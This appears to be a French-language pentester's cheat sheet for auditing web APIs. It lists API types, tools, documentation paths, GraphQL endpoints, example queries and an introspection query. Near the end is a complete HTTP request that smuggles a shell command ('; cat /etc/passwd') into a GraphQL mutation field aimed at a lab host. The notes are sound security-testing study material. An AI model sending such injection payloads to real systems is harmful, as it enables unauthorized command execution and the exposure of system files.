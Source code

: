 # Web API

> [!TIP]
> Même si l'on pense maitriser son API, toujours énumerer, toujours vérifier lors des audits

## standard type

* SOAP
* RESTful
* GrpahQL

## Data Type

* XML
* JSON

## common content type:

* application/json
* application/xml 
* application/x-www-form-urlencoded 

## Convention

| Convention | Meaning |
-------------------------
| ":" or "{}" | variables |
| "[]" | optional input |
| "||" | possible values that can be used. |
| "< >" | ex. <find-function> Angle brackets represent a DomString, which is a 16-bit string. |

## tools généralement utilisés pour les tests (hors sécu)

* Postman
* Client http du même langage de programmation
* OWASP Zap / Burp Suite

## liste sommaire de repertoires pour trouver la doc:

```txt
/docs
/api/docs
/documentation
/developers/documentation
```

### liste de sous domaines pour trouver la doc

```txt
dev.
api.
```
### detect graphQL

```txt
/graphql
/v1/graphql
/api/graphql
/v1/api/graphql
Attacking GraphQL   291
/graph
/v1/graph
/graphiql
/v1/graphiql
/console
/query
/graphql/console
/altair
/playground
```

### exemples GraphQL

#### Requetes classiques:

lister les noms et pays de tous les clients :

```json
query {clients { name, country } }
```

Obtenir le client avec l'id 1

```json
query { client (id:1) { name, country } }
```

Appeller une fonction spécifique

```json
{
 clientsByCountry(countryId: 1) {
    id
    name
    country
  }
}
```


#### récupération du shéma (introspection)

```json
{
    "query": "{__schema{queryType{name}}}"
}
```

#### exemple type d'injection GraphQL retournant le fichier /etc/passwd

```sh
POST /graphql HTTP/1.1
Host: 192.168.195.132:5000
Accept: application/json
Content-Type: application/json

{"variables": {"scheme": "http",
"path": "/ ; cat /etc/passwd",
"port": 80, "host": "test.com"},
"query": "mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!)
{\n importPaste(host: $host, port: $port, path: $path, scheme: $scheme)
{\n result\n }\n }"}
```

## SOAP

### Merge SOAP with XSD in Visual studio:

- Merge XSD in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter local Path or URI"

